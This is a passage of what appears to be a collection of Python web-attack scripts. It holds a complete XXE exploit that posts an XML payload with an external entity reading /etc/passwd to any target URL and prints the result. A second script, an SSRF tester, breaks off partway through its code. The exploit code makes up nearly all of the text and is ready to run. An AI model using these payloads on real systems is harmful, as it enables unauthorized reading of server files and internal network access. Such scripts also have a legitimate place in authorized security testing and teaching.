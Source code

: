 ##### XML External Entity (XXE) Injection
---

```python
import requests
from pyfiglet import figlet_format
import argparse


def xxe_injection(url, xml_payload):
    headers = {'Content-Type': 'application/xml'}
    response = requests.post(url, data=xml_payload, headers=headers)
    return response.text


def main():
    # Setting ASCII art
    ascii_art = figlet_format('XXE test', font='slant')
    print(ascii_art)

    # Argument parsing
    parser = argparse.ArgumentParser(description='Simple XXE tester for urls')
    parser.add_argument('-u', '--url', type=str, required=True, help='The target url to test XXE')
    args = parser.parse_args()

    # Calling the function
    xml_payload = """<?xml version="1.0" encoding="UTF-8"?> 
    <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]> 
    <root> 
    <data>&xxe;</data> 
    </root>
    """
    result = xxe_injection(url=args.url, xml_payload=xml_payload)
    print(result)


if __name__ == '__main__':
    main()
```

This script attempts to exploit an XXE vulnerability by sending a crafted XML payload that tries to read the /etc/passwd file on the server.

##### Server-Side Request Forgery (SSRF)
----

```python
import requests
from pyfiglet import figlet_format
import argparse


def test_ssrf(url, target_url):
    params = {'url': target_url}
    response = requests.get(url, params=params)
    return response.text


def main():
    # Setting ASCII art
    ascii_art = figlet_format('SSRF TEST', font='slant')
    print(ascii_art)

    # Argument parsing
    parser = argparse.ArgumentParser(description='SSRF test')
```